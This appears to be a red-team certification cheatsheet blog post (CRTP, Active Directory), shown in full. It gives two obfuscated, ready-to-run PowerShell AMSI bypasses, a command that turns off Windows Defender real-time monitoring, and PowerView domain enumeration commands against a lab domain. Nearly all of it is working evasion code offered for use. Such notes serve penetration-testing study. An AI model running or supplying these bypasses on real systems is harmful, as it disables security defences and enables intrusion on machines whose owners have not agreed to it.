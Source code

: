 ```yaml
---
layout: post
title: CRTP Cheatsheet (Active Directory)
---
```


# Evading AMSI and AV

## AMSI Bypass

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

I found it was useful to keep an alternative AMSI bypass such as:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

## Windows Defender
The following command requires administrative privileges.

Disable Defender Monitoring
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Enumeration
All of the following functions are part of PowerView (or PowerView Dev) unless otherwise specified.

## Domain Enumeration

```powershell
# Get current domain
Get-NetDomain

# Get object of another domain
Get-NetDomain -Domain moneycorp.local

# Get domain SID
Get-DomainSID

# Get domain policy
Get-DomainPolicy
(Get-DomainPolicy-domainmoneycorp.local)."system access"

# Get domain controllers
Get-NetDomainController
Get-NetDomainController -Domain moneycorp.local
```
